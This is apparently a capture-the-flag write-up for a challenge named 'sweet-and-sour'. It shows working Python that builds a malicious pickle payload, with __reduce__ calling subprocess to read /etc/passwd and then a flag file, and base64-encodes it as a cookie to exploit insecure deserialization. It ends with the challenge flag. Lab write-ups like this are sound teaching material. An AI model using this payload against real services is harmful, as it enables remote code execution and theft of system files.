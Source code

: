 ## sweet-and-sour

This website uses Python and has a cookie in base64 format, so it raises suspicion that we are dealing with the Pickle module. We can sneak code into the cookie data by encoding and subsequently decoding it in base64 format. Here's what worked:

```
import pickle
import base64
import subprocess

class EvilPickle:
    def __reduce__(self):
        return (subprocess.check_output, (['cat', '/etc/passwd'],))

pickle_hehe = pickle.dumps(EvilPickle())

with open("pickle_hehe.data", "wb") as file:
    file.write(pickle_hehe)

encoded = base64.b64encode(pickle_hehe).decode()
print("Payload: " + str(encoded))
```

Run it in any compiler and use the output as data cookie. It displays the `/etc/passwd` contents. Now that we confirmed this method works, we can modify the original code and see what's inside `/home/ctf`. Finally, we have to change the line:
```
return(subprocess.check_output, (['cat', '/home/ctf/flag'],))
```

_CTF{ccc1ccef217ed19c492bdada049ad2b0fbf1adcb72a92f13ab153aae068f797f}_